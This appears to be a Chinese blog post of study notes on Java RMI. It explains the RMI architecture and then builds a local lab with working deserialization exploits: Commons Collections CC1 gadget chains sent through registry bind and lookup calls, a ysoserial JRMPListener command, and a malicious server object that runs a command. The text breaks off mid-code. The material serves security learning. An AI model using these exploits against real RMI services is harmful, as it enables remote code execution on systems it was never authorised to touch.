这是对网上一些文章和视频的再总结，可以参考以下资料，师傅们分析的都挺详细了，我这就是记录一下师傅们写的博客。

[廖雪峰 - 给了简单的小例子，了解即可](https://liaoxuefeng.com/books/java/network/rmi/)

[B站视频(白师傅)](https://www.bilibili.com/video/BV1L3411a7ax)

[先知社区(小阳师傅) - 讲的比较详细，偏理论，可以结合白师傅的视频学习理论](https://xz.aliyun.com/t/9261)

[g师傅 - 攻击手法讲的特别详细，学完理论后看这篇可以学攻击手法](https://xz.aliyun.com/t/9053)

[T师傅，也是分析攻击案例分析的比较多，强烈推荐](https://xz.aliyun.com/t/8706)

## RMI概述

Java的RMI远程调用是指，一个JVM中的代码可以通过网络实现远程调用另一个JVM的某个方法。RMI是Remote Method Invocation的缩写。

提供服务的一方我们称之为服务器，而实现远程调用的一方我们称之为客户端。

g师傅画的这个图真好，一眼看过去就知道是怎么回事了。


## RMI基本设计

从RMI设计角度来讲，基本分为三层架构模式来实现RMI，分别为RMI服务端，RMI客户端和RMI注册中心。

**客户端:**

存根/桩(Stub):远程对象在客户端上的代理;
远程引用层(Remote Reference Layer):解析并执行远程引用协议;
传输层(Transport):发送调用、传递远程方法参数、接收远程方法执行结果。

**服务端:**

骨架(Skeleton):读取客户端传递的方法参数，调用服务器方的实际对象方法， 并接收方法执行后的返回值;
远程引用层(Remote Reference Layer):处理远程引用后向骨架发送远程方法调用;
传输层(Transport):监听客户端的入站连接，接收并转发调用到远程引用层。

**注册表(Registry):**以URL形式注册远程对象，并向客户端回复对远程对象的引用。


## 案例讲解

### Remote接口

```java
package RMIProject;

import java.rmi.Remote;
import java.rmi.RemoteException;

// 定义一个远程接口，继承java.rmi.Remote接口

public interface HelloInterface extends Remote {
    String Hello(String age) throws RemoteException;
}
```

定义了一个HelloInterface接口，定义了一个hello方法，同时抛出RemoteException异常。



同时我们在使用RMI远程方法调用的时候，需要事先定义一个远程接口，继承java.rmi.Remote接口，但该接口仅为RMI标识接口，本身不代表使用任何方法，说明可以进行RMI java虚拟机调用。

同时由于RMI通信本质也是基于“网络传输”，所以也要抛出RemoteException异常。

### Remote接口实现类

```java
package RMIProject;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

// 远程接口实现类，继承UnicastRemoteObject类和Hello接口

public class HelloImp extends UnicastRemoteObject implements HelloInterface {

    private static final long serialVersionUID = 1L;

    protected HelloImp() throws RemoteException {
        super(); // 调用父类的构造函数
    }

    @Override
    public String Hello(String age) throws RemoteException {
        return "Hello" + age; // 改写Hello方法
    }
}
```

接着我们创建HelloImp类，继承UnicastRemoteObject类和Hello接口，定义改写HelloInterface接口的hello方法。

但远程接口实现类必须继承UnicastRemoteObject类，用于生成 Stub（存根）和 Skeleton（骨架）。

Stub可以看作远程对象在本地的一个代理，囊括了远程对象的具体信息，客户端可以通过这个代理和服务端进行交互。

Skeleton可以看作为服务端的一个代理，用来处理Stub发送过来的请求，然后去调用客户端需要的请求方法，最终将方法执行结果返回给Stub。

同时跟进UnicastRemoteObject类源代码我们可以发现，其构造函数抛出了RemoteException异常。但这种写法是十分不好的，所以我们通过super()关键词调用父类的构造函数。



### RMI服务器端

```java
package RMIProject;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

// 服务端

public class RMIServer {
    public static void main(String[] args) {
        try {
            HelloInterface h  = new HelloImp(); // 创建远程对象HelloImp对象实例
            LocateRegistry.createRegistry(1099); // 获取RMI服务注册器
            Naming.rebind("rmi://localhost:1099/hello",h); // 绑定远程对象HelloImp到RMI服务注册器
            System.out.println("RMIServer start successful");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

这里客户端可以通过这个URL直接访问远程对象，不需要知道远程实例对象的名称，这里服务端配置完成。RMIServer将提供的服务注册在了 RMIService上,并且公开了一个固定的路径 ,供客户端访问。

### RMI客户端配置

```java
package RMIProject;

import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;

// 客户端

public class RMIClient {
    public static void main(String[] args){
        try {
            HelloInterface h = (HelloInterface) Naming.lookup("rmi://localhost:1099/hello"); // 寻找RMI实例远程对象
            System.out.println(h.Hello("run......"));
        }catch (MalformedURLException e) {
            System.out.println("url格式异常");
        } catch (RemoteException e) {
            System.out.println("创建对象异常");
        } catch (NotBoundException e) {
            System.out.println("对象未绑定");
        }
    }
}
```

客户端只需要调用 java.rmi.Naming.lookup 函数，通过公开的路径从RMIService服务器上拿到对应接口的实现类， 之后通过本地接口即可调用远程对象的方法 .

在整个过程都没有出现RMI Registry，他是去哪儿了嘛？实际上新建一个RMI Registry的时候，都会直接绑定一个对象在上面，我们示例代码中的RMIServer类其实包含了RMI Registry和RMI Server两部分。如下图所示。



接着我们先启动RMIServer类，再启动RMIClient类即可。

## 攻击实验场景

### 实验目录

```bash
/rmi_injection_labs1/
    ├── client/    # 客户端
    ├── registry/  # 注册中心
    ├── server/    # 服务端
    ├── service/   # 服务端业务接口 & 业务实现类
```

### service.rmi

```java
package rmi_injection_labs1.service;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface rmi extends Remote {
    public String hello() throws RemoteException;
}
```

### service.RemoteClass

```java
package rmi_injection_labs1.service;

import rmi_injection_labs1.service.rmi;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class RemoteClass extends UnicastRemoteObject implements rmi {
    public RemoteClass() throws RemoteException {
        System.out.println("构造方法");
    }
    public String hello() throws RemoteException {
        System.out.println("hello,world");
        return "hello,world";
    }
}
```

### registry.RegistryClass

这里的注册中心其实就已经包含了对应的服务端代码，server包中我准备放server端的攻击代码

```java
package rmi_injection_labs1.registry;

import rmi_injection_labs1.service.RemoteClass;
import rmi_injection_labs1.service.rmi;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RegistryClass {
    public static void main(String[] args) throws Exception {
        rmi hello = new RemoteClass();//创建远程对象
        Registry registry = LocateRegistry.createRegistry(1099); //创建注册表
        registry.rebind("hello",hello);//将远程对象注册到注册表里面，并且设置值为hello
    }
}
```

### client.Client

```java
package rmi_injection_labs1.client;

import rmi_injection_labs1.service.RemoteClass;

import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Client {
    public static void main(String[] args) throws RemoteException, NotBoundException {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);//获取远程主机对象
        // 利用注册表的代理去查询远程注册表中名为hello的对象
        RemoteClass hello = (RemoteClass) registry.lookup("hello");
        // 调用远程方法
        System.out.println(hello.hello());
    }
}
```

## 攻击注册中心

### 基本方法

我们与注册中心进行交互可以使用如下几种方式

- list  - 缺少readObject方法，所以没法达到序列化效果，就无法利用
- bind
- rebind
- unbind
- lookup

这几种方法位于RegistryImpl_Skel#dispatch中，如果存在readObject，则可以利用

**case1 - list**



当调用bind或rebind时，会用readObject读出参数名和远程对象，所以都可以利用

如果服务端存在cc1相关组件漏洞，那么就可以使用反序列化攻击，CC1攻击链可以参考(https://www.cnblogs.com/erosion2020/p/18553568)

**注意下边给的两个poc只能在 jdk7u71以下的版本才能执行，7u71这个版本也不行，我用的是7u66这个版本的JDK，因为在7u71及以上的版本中AnnotationInvocationHandler的readObject方法中，LazyMap被替换成了LinkedHashMap因此无法触发LazyMap构造的POC，虽然有绕过方法，但是这里只是为了说明RMI的漏洞，所以降低JDK版本即可**

### POC1 - 基于bind/rebind

**case0 - bind**



**case3 - rebind**



```java
package rmi_injection_labs1.server;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class ServerAttackRegistryByBind {
    public static void main(String[] args) throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        // 这个地方和原来的CC1写法不一样，要把LazyMap.class.getInterfaces()改成new Class[]{Map.class}，LazyMap.class.getInterfaces()默认会过去到两个接口的Class，分别是Map和Serializable，但是这里只要一个Map才能触发
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);

        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, invocationHandler));
        registry.bind("test",r);
    }
}
```

来弹个cmd窗口



### POC2 - 基于unbind/looup

**case2 - lookup**



**case4 - unbind**



```java
package rmi_injection_labs1.server;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;

public class ServerAttackRegistryUnBuild {
    public static void main(String[] args) throws Exception {
        // ======================这一段就是POC1中的bind/rebuild攻击链代码======================
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, invocationHandler));
        // ========================从这里不一样了======================
        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);
        //获取operations
        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);
        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(r);
        ref.invoke(var2);
    }
}

```

## 攻击客户端

### 注册中心攻击客户端

此方法可以攻击客户端和服务端

对于注册中心来说，我们还是从这几个方法触发：

- bind
- unbind
- rebind
- list
- lookup

### ysoserial cc1攻击

除了unbind和rebind都会返回数据给客户端，返回的数据是序列化形式，那么到了客户端就会进行反序列化，如果我们能控制注册中心的返回数据，那么就能实现对客户端的攻击，这里使用ysoserial的JRMPListener，命令如下

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 12345  CommonsCollections1 'calc'
```

然后使用客户端去访问，其实这里展示的效果就是使用了客户端访问了带有恶意代码的注册中心。

```
package rmi_injection_labs1.client;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class ClientAttackByCC1 {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",12345);
        registry.list();
    }
}
```



这里即使调用unbind也会触发反序列化，推测是在之前传输一些约定好的数据时进行的序列化和反序列化。所以实际上这五种方法都可以达到注册中心反打客户端或服务端的目的

### 服务端攻击客户端

服务端攻击客户端，大抵可以分为以下两种情景。

1. 服务端返回参数为Object对象
2. 远程加载对象

在RMI中，远程调用方法传递回来的不一定是一个基础数据类型（String、int），也有可能是对象，当服务端返回给客户端一个对象时，客户端就要对应的进行反序列化。所以我们需要伪造一个服务端，当客户端调用某个远程方法时，返回的参数是我们构造好的恶意对象。这里以cc1为例

### 服务端cc1攻击

**User接口**

```java
package rmi_injection_labs1.service;

import java.rmi.RemoteException;
public interface User extends java.rmi.Remote {
    public Object getUser() throws RemoteException;
}
```

**服务端**

```java
package rmi_injection_labs1.server;

import rmi_injection_labs1.service.LocalUser;
import rmi_injection_labs1.service.User;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.concurrent.CountDownLatch;

public class LocalUserServer {
    public static void main(String[] args) throws Exception {
        User liming = new LocalUser("liming",15);
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("user",liming);
        System.out.println("registry is running...");
        System.out.println("liming is bind in registry");
        CountDownLatch latch=new CountDownLatch(1);
        latch.await();
    }
}
```

**客户端**

```java
package rmi_injection_labs1.client;

import rmi_injection_labs1.service.User;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class LocalUserServerAttack2ClientByCC1 {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        User user = (User) registry.lookup("user");
        user.getUser();
    }
}
```

**恶意类LocalUser**

```java
package rmi_injection_labs1.service;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;
public class LocalUser extends UnicastRemoteObject implements User {
    public String name;
    public int age;
    public LocalUser(String name, int age) throws RemoteException {
        super();
        this.name = name;
        this.age = age;
    }

    @Override
    public Object getUser() throws RemoteException {
        InvocationHandler invocationHandler = null;
        try{
            String execArgs = "cmd /c start";
            final Transformer transformerChain = new ChainedTransformer(
                    new Transformer[]{ new ConstantTransformer(1) });
            final Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {
                            String.class, Class[].class }, new Object[] {
                            "getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {
                            Object.class, Object[].class }, new Object[] {
                            null, new Object[0] }),
                    new InvokerTransformer("exec",
                            new Class[] { String.class }, new Object[]{execArgs}),
